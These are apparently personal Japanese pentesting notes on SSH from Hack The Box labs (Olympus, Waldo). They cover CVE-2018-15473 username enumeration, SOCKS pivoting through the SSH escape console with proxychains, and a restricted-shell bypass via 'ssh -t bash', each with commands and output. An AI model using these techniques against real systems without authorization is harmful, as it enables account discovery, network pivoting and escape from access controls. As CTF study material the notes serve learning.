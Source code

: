 # SSH

----

## user enum
* [CVE-2018-15473](https://github.com/epi052/cve-2018-15473)でユーザの列挙可能
* Htb; Olympus

  ```console
  ┌─[rio@parrot]─[~/Htb/Olympus/cve-2018-15473]
  └──╼ $./ssh-username-enum.py  -p 2222 -w names.txt 10.129.203.13
  [!] Attempted OpenSSH version detection; version not recognized.
  [!] Found: SSH-2.0-City of olympia
  
  [+] icarus found!
  ```

## tips
* ssh console上でEnterKey + ~Cでポートフォワーディングが可能
* Dオプションでsocksプロキシが可能

  ```console
  ------------------TARGET-------------------------
  icarus@620b296204a3:~$
  icarus@620b296204a3:~$
  ssh> -D 8080
  Forwarding port.
  
  ------------------HOST-------------------------
  icarus@620b296204a3:~$
  ┌─[rio@parrot]─[~/Htb/Olympus]
  └──╼ $tail  /etc/proxychains.conf
  #       proxy types: http, socks4, socks5
  #        ( auth types supported: "basic"-http  "user/pass"-socks )
  #
  [ProxyList]
  # add proxy here ...
  # meanwile
  # defaults set to "tor"
  # socks4        127.0.0.1 9050
  socks4  127.0.0.1 8080
  
  ┌─[✗]─[rio@parrot]─[~/Htb/Olympus]
  └──╼ $proxychains ssh  hades@172.19.0.2
  ProxyChains-3.1 (http://proxychains.sf.net)
  |S-chain|-<>-127.0.0.1:8080-<><>-172.19.0.2:22-<--timeout
  |S-chain|-<>-127.0.0.1:8080-<><>-4.2.2.2:53-<><>-OK
  The authenticity of host '172.19.0.2 (172.19.0.2)' can't be established.
  ECDSA key fingerprint is SHA256:uyZtmsYFq/Ac58+SEgLsL+NK05LlH2qwp2EXB1DxlO4.
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  Warning: Permanently added '172.19.0.2' (ECDSA) to the list of known hosts.
  hades@172.19.0.2's password:
  ```

* Restricted shell bypass
* ssh root@127.0.0.1 -t bashで制限シェルを回避可能
* bashは/etc/bash.bashrcで$PS1が空でない時、ローカルのbashrcを読み込まない
* ssh root@127.0.0.1 -t bashでは$PS1が空となるため、ローカルのbashrcに記述された制限を回避できる
* Htb: Waldo

  ```console
  waldo:~/.ssh$ ssh  -i .monitor monitor@localhost 'echo $PS1'
  
  waldo:~/.ssh$ ssh  -i .monitor monitor@localhost  -t bash
  monitor@waldo:~$
  ```

  

